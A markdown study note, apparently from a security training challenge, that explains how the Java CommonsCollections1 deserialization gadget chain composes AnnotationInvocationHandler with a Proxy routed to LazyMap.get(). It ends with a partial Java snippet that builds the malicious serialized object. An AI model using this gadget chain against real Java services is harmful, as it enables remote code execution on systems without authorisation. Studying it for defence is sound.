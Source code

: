  ```



##### Idea:

This gadget chain composes by 2 elements

**Element 1** - The use of `AnnotationInvocationHandler`:

- Purpose: be the malicious serialized object.

- It has property of `Map` type: `memberValues`

  <img src="C:\Users\Lam Nguyen\AppData\Roaming\Typora\typora-user-images\image-20200316163249110.png" alt="image-20200316163249110" style="zoom:67%;" />
  
  Initiate `memberValues` in constructor:
  
  <img src="C:\Users\Lam Nguyen\AppData\Roaming\Typora\typora-user-images\image-20200316233716493.png" alt="image-20200316233716493" style="zoom: 67%;" />
  
  
  
- Its `readObject()` retrieve value of `Map memberValues` which could be chained to `LazyMap.get()` by using a `Proxy`.

  <img src="C:\Users\Lam Nguyen\AppData\Roaming\Typora\typora-user-images\image-20200316163548972.png" alt="image-20200316163548972" style="zoom: 50%;" />



**Element 2** - The use of `Proxy`

- Purpose: methods of an abstract `Map` (e.g.: `HashMap.get()`) –routed to–> methods of `LazyMap` (`LazyMap.get()` method).

- Invocation Handler: An instance of `AnnotaionInvocationHandler`



##### Workflow:

​	![Exploit Flow](I:\Current working projects\VCS Trainning\Challenge 5\Exploit Flow.png)



##### Code:

- ```java
  String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
  
  //Element 2
  final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
  constructor.setAccessible(true);
  InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
  Proxy evilProxy = (Proxy) Proxy.newProxyInstance(CommonsCollections1All.class.getClassLoader(), new Class[] {Map.class}, secondInvocationHandler );
  
  //Element 1
  InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);
  ```